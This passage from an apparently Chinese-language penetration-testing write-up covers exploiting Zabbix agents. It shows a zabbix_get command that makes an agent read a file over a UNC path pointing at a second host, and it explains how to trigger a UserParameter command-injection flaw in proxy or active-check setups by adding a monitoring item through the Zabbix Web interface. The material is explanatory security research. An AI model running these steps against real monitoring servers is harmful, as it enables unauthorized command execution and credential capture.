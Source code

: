 ```plain
zabbix_get -s 192.168.30.200 -p 10050 -k "vfs.file.contents[\\\\192.168.30.243\\cc]"
```

![-w746](assets/1711961932-25500085b6f07102bc2091979a18e9b1.jpg)

![-w1917](assets/1711961932-9a4a21dd0bbe0d2718a54fd7a70a63f1.jpg)

### 6\. Zabbix Proxy 和主动检查模式利用场景

通过 zabbix\_get 工具执行监控项命令只适合 Agent 被动模式且 10050 端口可以通讯的场景（同时 zabbix\_get 命令也是为了演示漏洞方便）。

如果在 Zabbix Proxy 场景或 Agent 主动检查模式的情况下，Zabbix Server 无法直接与 Agent 10050 端口通讯，可以使用比较通用的办法，就是通过 Zabbix Web 添加监控项。

以 UserParameter 命令注入漏洞举例，给指定主机添加监控项，键值中填入监控项命令，信息类型选择文本：  
![-w795](assets/1711961932-f1667c5884b342a1dbd7e12cdb10c99a.jpg)
